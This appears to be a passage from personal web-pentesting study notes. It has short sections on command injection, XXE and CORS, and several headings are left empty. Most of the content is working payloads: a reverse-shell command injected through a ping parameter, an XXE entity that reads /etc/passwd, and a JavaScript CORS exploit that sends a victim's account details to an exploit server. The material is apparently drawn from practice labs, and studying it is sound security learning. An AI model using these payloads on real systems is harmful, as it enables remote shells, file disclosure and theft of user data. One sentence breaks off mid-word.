 Here you can see the attacker can break out of the program context by entering:

```bash
#thx to revshells.com
/what_is_my_ping?8.8.8.8; sh -i >& /dev/tcp/10.10.10.10/9001 0>&1

```

DONT FORGET TO URL encode (Ctrl + U) in Burp the payload.

That would open a liste

## SSTI
## XXE

If XML parser is poorly configured and no user sanitization applied then try forcing LFI:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```



## XSLT
## Deserilization
## Race condition
## CORS

CORS regulates which websites can access ressources of the current website. So, if the ACAO policy is poorly configured then any website can fetch data from the victim website.

This is BAD because if there is a CSRF or any otyher vulnerability within the resources of the victim site then those can be access with a `js` like the one from portswigger tutorial:

```js

<script>

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ac2009304c1c1ac835982d9008a0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://exploit-0a7500650485c1c5834681ca017500b8.exploit-server.net/exploit/log?key='+this.responseText;
};

</script>

```
